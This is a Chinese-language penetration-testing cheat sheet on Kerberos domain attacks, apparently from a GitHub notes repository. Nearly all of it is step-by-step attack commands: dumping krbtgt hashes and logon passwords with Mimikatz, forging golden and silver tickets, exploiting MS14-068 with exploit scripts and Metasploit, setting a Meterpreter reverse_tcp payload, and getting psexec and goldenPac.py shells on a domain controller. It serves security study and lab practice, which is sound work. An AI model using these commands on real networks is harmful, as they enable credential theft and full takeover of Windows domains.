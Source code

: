  ### 名词
	KDC(Key Distribution Center)： 密钥分发中心，里面包含两个服务：AS和TGS
	AS(Authentication Server)： 身份认证服务
	TGS(Ticket Granting Server)： 票据授予服务
	TGT(Ticket Granting Ticket): 由身份认证服务授予的票据，用于身份认证，存储在内存，默认有效期为10小时
 ### 黄金票据+Mimikatz
	Golden Ticket伪造TGT(Ticket Granting Ticket)，可以获取任何Kerberos服务权限，
	域控中提取krbtgt的hash
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域内机器是不能访问dc上的文件
![image](/assets/Pentest_Note/master/img/390.png)

	清空票据
![image](/assets/Pentest_Note/master/img/391.png)

	域控中获取krbtgt用户的信息
	>privilege::debug
	>mimikatz log "lsadump::dcsync /domain:zone.com /user:krbtgt"
	获取信息：/domain、/sid、/aes256
![image](/assets/Pentest_Note/master/img/392.png)

	在sub2k8中生成golden ticket
	>mimikatz "kerberos::golden /krbtgt:{ntlmhash} /admin:域管理 /domain:域名 /sid:sid /ticket:gold.kirbi"
![image](/assets/Pentest_Note/master/img/393.png)

	导入
	Mimikatz#kerberos::ptt 123.kirbi
![image](/assets/Pentest_Note/master/img/394.png)
 ### 白银票据+Mimikatz
![image](/assets/Pentest_Note/master/img/395.png)

	Silver Ticket是伪造的TGS，只能访问指定服务权限
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域控中导出
	>privilege::debug
	>sekurlsa::logonpasswords
![image](/assets/Pentest_Note/master/img/396.png)

	Sub2k8伪造票据
	>mimikatz "kerberos::golden /domain:zone.com /sid:{SID} /target:dc.zone.com /service:cifs /rc4:{NTLM} /user:y /ptt"
![image](/assets/Pentest_Note/master/img/397.png)
 ### MS14-068
 #### 第一种
	https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
	域控：dc.zone.com/10.1.1.100
	域内机器：sub2k8.zone.com/10.1.1.98
	域内普通用户：y，
	Sub2k8中清除票据
	Mimikatz#kerberos::purge
	>whoami /user查看SID 
	创建ccache票据文件
	> MS14-068.exe -u y@zone.com -p password -s S-1-5-21-2346829310-1781191092-2540298887-1112 -d dc.zone.com
	注入票据
	Mimikatz# Kerberos::ptc c:\xx\xx\xxx.ccache
	psexec无密码登陆
	>PsExec.exe \\dc.xx.com\ cmd.exe
 #### 第二种
	需要知道用户 SID
	远程方法
  	rpcclient >lookupnames john.smith
	john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
	本地方法
	>wmic useraccount get name,sid
	Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
	Guest          S-1-5-21-3415849876-833628785-5197346142-501   
	Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
	Guest          S-1-5-21-297520375-2634728305-5197346142-501   
	krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
	lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
	powerview
	>Convert-NameToSid high-sec-corp.localkrbtgt
	S-1-5-21-2941561648-383941485-1389968811-502
	metasploit使用或生成票证pykek
```bash
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```
	>git clone https://github.com/SecWiki/windows-kernel-exploits
	>python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
	>python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
	>python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
	>python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066-1105
	使用mimikatz加载票证
	>mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
	如果时钟有偏差，请使用来自nmap的脚本clock-skew.nse
	Linux> $ nmap -sV -sC 10.10.10.10
	clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s
	Linux> sudo date -s "14 APR 2015 18:25:16" 
	Windows> net time /domain /set
 ### Mimikatz+MSF
	>whoami /user 查看SID
	msf >use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	msf >set domain 域名
	msf >set password 密码
	msf >set rhost 域控机器
	msf >set user 用户
	msf >set user_sid sid
	得到.bin文件
	>apt-get install krb5-user
	上传mimikatz和bin文件
	Mimikatz# Kerberos::clist “xxxx.bin” /export
	生成kirbi文件
	Meterpreter >load kiwi
	Meterpreter >download c:/wmpub/xxxxxx.kirbi /tmp/
	注入票据
	Meterpreter >kerberos_ticket_use /tmp/xxxxxx.kirbi
	>use exploit/windows/local/current_user_psexec
	>set TECHNIQUE PSH
	>set RHOST dc.xx.com
	>set payload windows/meterpreter/reverse_tcp
	>set LHOST 192.168.1.1
	>set session 1
	>exploit
 ### goldenPac.py
	kali下
	>apt-get install krb5-user
	>goldenPac.py –dc-ip 10.1.1.100 –target-ip 10.1.1.100 zone.com/y:password@dc.zone.com
